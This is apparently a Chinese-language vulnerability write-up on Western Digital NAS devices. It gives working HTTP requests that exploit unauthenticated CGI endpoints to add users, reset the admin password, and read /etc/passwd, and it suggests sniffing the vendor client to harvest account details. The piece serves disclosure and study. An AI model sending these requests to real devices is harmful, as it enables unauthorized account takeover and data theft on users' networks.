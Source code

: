 **account_mgr.cgi越权添加用户(无需登录)**

这个脚本是对NAS产品的账号进行控制管理，但是其对用户没有做认证，导致可以在没有登录的情况下进行密码修改，至于这里管理员账号的获取，请尝试安装西部数据的客户端，可以使用抓包软件抓取到其与api接口的请求，可以直接获取到所有的设备账号。

[![](./img/85705/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01844c1909a9e91271.png)

在抓包之后对数据包进行构造，成功添加用户。

[![](./img/85705/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01cd0e5ccbb07c19ee.png)

[![](./img/85705/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0110bf26e467e513f9.png)

相对应的数据包



```
http://192.168.4.110/cgi-bin/account_mgr.cgi
cmd=cgi_user_add&amp;name=test123&amp;pw=MTExMTEx&amp;group=&amp;first_name=111&amp;last_name=111&amp;pw_onoff=1&amp;mail=111%40qq.com&amp;expires_time=
```

同样的除了添加用户的功能之外，还能够实现对管理员用户密码的修改

<br>

**account_mgr.cgi越权修改管理员密码(无需登录)**

[![](./img/85705/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01710b086348ecb58b.png)



```
http://192.168.4.110/cgi-bin/account_mgr.cgi
cmd=cgi_modify_account&amp;mtype=3&amp;username=admin&amp;first_name=111&amp;last_name=111&amp;pw=MTIzMTIz&amp;old_pw=&amp;mail=&amp;group=&amp;available1=0&amp;available2=&amp;available3=&amp;available4=&amp;pw_off=&amp;oldMail=&amp;oldName=test123&amp;type=local&amp;expires_time=&amp;admin
```

还有一些其他的安全问题

<br>

**webfile_mgr.cgi任意文件读取导致信息泄露**

[![](./img/85705/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e9160df2a10d1bf4.png)



```
http://192.168.4.110/cgi-bin/webfile_mgr.cgi
提交参数
cmd=cgi_download&amp;path=%2Fetc%2Fpasswd&amp;path1=%2Fetc%2Fpasswd&amp;name=passwd&amp;type=MD+File&amp;browser=f&amp;os=W
```



**总结**

西部数据的这些漏洞还是比较典型的，基本主要成因还是代码的编写过则过于松懈，导致很多的漏洞出现，对于这次的NAS产品系列漏洞的产生实际上危害并没有我们想象的那么大，因为西部数据的NAS产品除了经过特殊设置，大部分只能通过同一网段进行访问，所以这就很大程度上减少了其危害程度，只是对于局域网中，这些漏洞足以致命。

欢迎各位大牛带我飞

<br>



**传送门**

[**【技术分享】看我如何黑掉西部数码的NAS设备（含演示视频）******](http://bobao.360.cn/learning/detail/3583.html)

<br>
